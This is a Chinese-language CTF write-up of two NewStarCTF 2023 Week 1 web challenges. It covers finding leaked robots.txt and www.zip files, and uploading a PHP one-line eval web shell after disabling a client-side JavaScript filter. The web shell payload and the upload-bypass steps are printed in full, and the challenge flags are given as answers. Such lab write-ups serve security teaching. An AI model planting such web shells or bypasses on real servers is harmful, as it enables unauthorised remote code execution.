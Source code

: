 # NewStarCTF_2023

## WEEK1|WEB 泄露的秘密

进入给定靶机提示**“粗心的管理员泄漏了一些敏感信息，请你找出他泄漏的两个敏感信息！”**：

1. 敏感信息很容易想到robots.txt，通过url访问robots.txt也确实有信息，得到第一段flag

   ```tex
   PART ONE: flag{r0bots_1s_s0_us3ful
   ```

2. 对于第二个敏感信息由于题目做得不多，试了网上说的常见的还是不行，干脆直接dirsearch扫服务器的目录发现除了robots.txt可以访问之外还有www.zip可以访问，在url添加www.zip下载压缩包，解压得到一个index.php文件中有第二段flag

   ```php
   $PART_TWO = "_4nd_www.zip_1s_s0_d4ng3rous}";
   ```


## WEEK1|WEB Begin of Upload

通过题目可以看到应该是利用文件上传的漏洞，在google浏览器先上传一个php文件发现有过滤，在**设置**中对js进行禁止就可以成功上传php文件，php文件内容如下：（利用一句话木马）

```php
<?php @eval($_POST['attack']);?>
```

成功将文件上传后利用蚁剑连接一句话木马成功进入服务器，在服务器的文件列表发现有f11114g文件打开得到flag

```tex
flag{b082c1e5-526a-4dbd-a5c4-00fa035bfb3c}
```

![1](https://github.com/2aurora2/CTF-WriteUp/blob/main/NewStarCTF_2023/image/1.png)

